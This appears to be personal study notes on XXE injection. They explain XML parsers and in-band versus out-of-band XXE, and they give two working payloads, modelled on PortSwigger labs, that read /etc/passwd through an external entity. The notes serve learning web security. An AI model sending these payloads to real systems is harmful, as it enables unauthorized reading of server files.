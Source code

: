 XML parsing is the process by which an XML file is read, and its information is accessed and manipulated by a software program. XML parsers convert data from XML format into a structure that a program can use (like a DOM tree). During this process, parsers may validate XML data against a schema or a DTD, ensuring the structure conforms to certain rules.
### Common XML Parsers

Several XML parsers are used across different programming environments; each parser may handle XML data differently, which can affect vulnerability to XXE injection.

- **DOM (Document Object Model) Parser**: This method builds the entire XML document into a memory-based tfree structure, allowing random access to all parts of the document. It is resource-intensive but very flexible.
- **SAX (Simple API for XML) Parser**: Parses XML data sequentially without loading the whole document into memory, making it suitable for large XML files. However, it is less flexible for accessing XML data randomly.
- **StAX (Streaming API for XML) Parser**: Similar to SAX, StAX parses XML documents in a streaming fashion but gives the programmer more control over the XML parsing process.
- **XPath Parser**: Parses an XML document based on expression and is used extensively in conjunction with XSLT.

###  Exploiting XXE to retrieve files

how to do it :
- Introduce (or edit) a `DOCTYPE` element that defines an external entity containing the path to the file.
- Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.



what payload will look like:
```XXE
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> <stockCheck><productId>&xxe;</productId></stockCheck>
```


### Exploiting XXE to perform SSRF attacks




### In-Band vs Out-of-Band XXE

In-band XXE refers to an XXE vulnerability where the attacker can see the response from the server. This allows for straightforward data exfiltration and exploitation. The attacker can simply send a malicious XML payload to the application, and the server will respond with the extracted data or the result of the attack.

Out-of-band XXE, on the other hand, refers to an XXE vulnerability where the attacker cannot see the response from the server. This requires using alternative channels, such as DNS or HTTP requests, to exfiltrate data. To extract the data, the attacker must craft a malicious XML payload that will trigger an out-of-band request, such as a DNS query or an HTTP request.

there's lab and it the same as the port swigger but there is new info :
there is two way to write xml code injection and it 
### *`in-band xxe`* :
#### `one`
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo[<!ENTITY xss SYSTEM "file:///etc/passwd">]>
<contact>

<name>&xss;</name><email>test@test.com</email><message>	&xss;
</message></contact>
```
